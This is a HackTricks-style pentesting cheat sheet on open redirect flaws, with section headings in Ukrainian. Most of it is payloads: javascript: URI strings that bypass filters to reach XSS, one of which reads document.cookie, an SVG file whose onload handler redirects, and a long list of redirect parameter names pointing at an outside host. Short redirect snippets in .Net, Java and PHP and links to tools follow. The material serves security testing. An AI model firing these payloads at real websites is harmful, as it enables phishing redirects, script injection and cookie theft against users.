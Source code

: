 # Open Redirect

{{#include ../banners/hacktricks-training.md}}


## Open redirect

### Перенаправлення на localhost або довільні домени

{{#ref}}
ssrf-server-side-request-forgery/url-format-bypass.md
{{#endref}}

### Open Redirect до XSS
```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

# Abuse bad subdomain filter
javascript://sub.domain.com/%0Aalert(1)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```
## Open Redirect завантаження svg файлів
```html
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```
## Загальні параметри ін'єкції
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```
## Приклади коду

#### .Net
```bash
response.redirect("~/mysafe-subdomain/login.aspx")
```
#### Java
```bash
response.redirect("http://mysafedomain.com");
```
#### PHP
```php
<?php
/* browser redirections*/
header("Location: http://mysafedomain.com");
exit;
?>
```
## Інструменти

- [https://github.com/0xNanda/Oralyzer](https://github.com/0xNanda/Oralyzer)

## Ресурси

- У [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect) ви можете знайти списки для фуззингу.
- [https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
- [https://github.com/cujanovic/Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
- [https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a](https://infosecwriteups.com/open-redirects-bypassing-csrf-validations-simplified-4215dc4f180a)


{{#include ../banners/hacktricks-training.md}}
